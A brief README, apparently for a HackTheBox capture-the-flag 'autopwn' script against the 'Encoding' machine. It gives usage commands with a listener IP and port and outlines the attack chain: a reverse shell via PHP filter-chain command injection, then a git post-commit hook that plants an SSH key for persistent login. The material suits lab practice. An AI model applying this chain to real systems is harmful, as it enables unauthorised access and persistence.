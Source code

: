 # AutoPwn script for the `Encoding` HackTheBox machine.

## Usage

```bash
python3 encoding_autopwn.py -l <local_IP> -p <local_port>
python3 encoding_autopwn.py -lhost <local_IP> -lport <local_port>
```

Example:

```bash
python3 encoding_autopwn.py -l 10.10.14.29 -p 4444
```

## The script will:

- Create a reverse shell hitting and endpoint vulnerable to command injection through [PHP Filter chains](https://www.synacktiv.com/publications/php-filters-chain-what-is-it-and-how-to-use-it.html)
- Add a new `post-commit` hook to the `.git` folder to add a new .ssh key to the authorized_keys file
- Commit using the script that is inside the `Encoding` box as `svc` user
- Then we can login as `svc` user using the new ssh key through SSH
- Grab the user flag
